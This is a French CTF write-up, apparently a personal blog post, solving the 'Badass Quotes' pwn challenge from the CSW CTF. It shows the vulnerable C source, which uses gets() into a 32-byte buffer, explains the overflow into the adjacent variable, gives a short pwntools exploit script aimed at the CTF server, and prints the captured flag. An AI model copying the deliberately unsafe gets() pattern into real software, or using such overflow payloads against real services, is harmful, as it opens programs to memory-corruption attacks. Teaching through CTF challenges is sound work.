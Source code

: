 ```yaml
---
title: "[CSW CTF] - Badass Quotes (500)"
date: 2022-05-23
categories: ['pwn']
draft: false
---
```


---
### Author : `Rxphgui` 
---

Aujourd'hui on va voir un challenge du CSW CTF. Un challenge de pwn dont j'ai eu le second solve (à 1 sec du first blood 0_0).

## Review du Code
Nous avions simplement le code source en C suivant :

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main()
{
    char term[64];
    char quote[32];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    memset(term, 0, 64);
	memset(quote, 0, 32);

    printf("\nI CaN HaS BaDaSs QuOtE?\n# ");
    gets(quote);

    if (strcmp(term, "BaDaSs I Am") == 0) {
        printf("\n");
        system("cat flag.txt");
        } else if(strlen(term) !    = 0) {    
            printf("\nI haz a sad %s...\n\n", term);
    } else {
	    printf("\nI haz a sad...\n\n");
	}

	printf(" ,_     _\n");
	printf(" |\\_,-~/\n");
	printf(" / _  _ |    ,--.\n");
	printf("(  @  @ )   / ,-'\n");
	printf(" \  _T_/-._( (   \n");
	printf(" /         `. \  \n");
	printf("|         _  \ | \n");
	printf(" \ \ ,  /      | \n");
	printf("  || |-_\__   /  \n");
	printf(" ((_/`(____,-'   \n");
	
}
```

## Exploitation 
Pour avoir le flag, on doit écrire sur `term` *"BaDaSs I Am"*.
On voit deux memset :
```c
memset(term, 0, 64);
memset(quote, 0, 32);
```

L'entrée utilisateur est `gets`, nous pouvons donc faire un buffer overflow.
```c
gets(quote);
```
Si nous écrivons plus de 32 caractères, nous allons écrire sur `term`.

## Payload [Pwntools]
```py
from pwn import *

elf = context.binary = ELF('./vuln')
p = elf.process()
r = remote('cybersecweek.ua.pt', 2010)

buffer = b"A"*32
strings_win = b"BaDaSs I Am"

payload = buffer + strings_win
print(payload)
r.sendline(payload)

r.interactive()
```

Nous obtenons alors :
```
CTFUA{!YoU_Ar3_B4dAss!}
```
Merci d'avoir lu & merci [Bryton](https://www.youtube.com/c/Opcode) de m'avoir volé le first blood :")
